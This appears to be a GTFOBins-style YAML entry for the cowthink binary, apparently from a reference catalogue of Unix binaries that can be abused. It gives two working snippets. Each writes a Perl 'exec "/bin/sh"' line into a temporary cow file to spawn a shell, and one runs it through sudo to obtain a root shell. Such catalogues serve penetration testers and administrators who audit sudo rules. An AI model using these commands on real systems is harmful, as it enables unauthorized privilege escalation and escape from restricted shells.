 ```yaml
---
description: It allows to execute [`perl`](../perl) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowthink -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowthink -f $TF x
---
```

